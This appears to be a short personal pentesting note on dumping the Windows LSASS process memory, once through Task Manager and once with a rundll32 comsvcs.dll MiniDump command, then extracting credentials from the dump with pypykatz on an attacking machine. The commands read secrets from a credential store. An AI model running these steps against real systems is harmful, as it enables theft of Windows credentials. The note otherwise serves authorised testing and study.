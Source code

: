 #### Dump LSASSY (GUI)

Right click Local Security Authority Process - create dump file.

![[Pasted image 20250121175948.png]]

Copy dmp file to attacking system, then run pypykatsz

```bash
pypykatz lsa minidump lsass.DMP
```

#### Dump LSASSY (CLI)

Fnd lsass.exe in using either cmd or a PowerShell prompt. We need to take note of the PID

CMD:

![[Pasted image 20250121180343.png]]

Powershell: 

![[Pasted image 20250121180642.png]]

In an elevated PowerShell prompt run the following:

```bash
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 656 C:\windows\tasks\lsass.dmp full
```

Then copy over to attacking system, and extract using the pypykatz mentioned above